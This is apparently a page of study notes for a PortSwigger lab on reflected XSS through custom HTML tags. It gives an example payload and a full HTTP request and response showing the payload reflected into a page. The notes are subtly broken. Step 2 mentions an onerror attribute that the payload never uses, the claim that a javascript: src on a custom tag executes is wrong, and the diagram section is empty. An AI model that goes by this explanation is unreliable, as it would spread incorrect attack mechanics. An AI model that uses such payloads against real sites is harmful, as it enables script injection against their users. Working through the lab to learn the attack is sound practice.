

## Crafting the Exploit

### Step-by-Step Mechanics

To exploit this vulnerability, we need to craft a payload that uses the allowed custom tags to execute JavaScript. Here’s a detailed breakdown of the process:

1. **Identify Allowed Custom Tags**: Determine which custom tags are allowed by the application. For example, let’s assume the application allows `<custom>` tags.

2. **Inject JavaScript**: Use the custom tag to inject JavaScript code. For instance, we can use an attribute like `onerror` to execute JavaScript when the tag fails to load.

3. **Craft the Payload**: Construct the payload that includes the custom tag with the JavaScript code.

#### Example Payload

```html
<custom src="javascript:alert('XSS');">
```

This payload uses the `src` attribute to execute the JavaScript code inside the `custom` tag.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

**HTTP Request:**

```http
GET /search?query=<custom%20src=%22javascript:alert('XSS');%22> HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Date: Tue, 01 Aug 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Vulnerable App</title>
</head>
<body>
    <h1>Search Results</h1>
    <div><custom src="javascript:alert('XSS');"></div>
</body>
</html>
```

### Explanation of Headers

- **Content-Type**: Specifies the media type of the resource. Here, it is `text/html`.
- **Content-Length**: Indicates the size of the response body in bytes.
- **Server**: Identifies the software used by the server to handle the request.

### Diagram of Attack Flow



---
<!-- nav -->
[[05-Common Pitfalls and Mistakes|Common Pitfalls and Mistakes]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/00-Overview|Overview]] | [[07-Exploiting Custom Tags|Exploiting Custom Tags]]
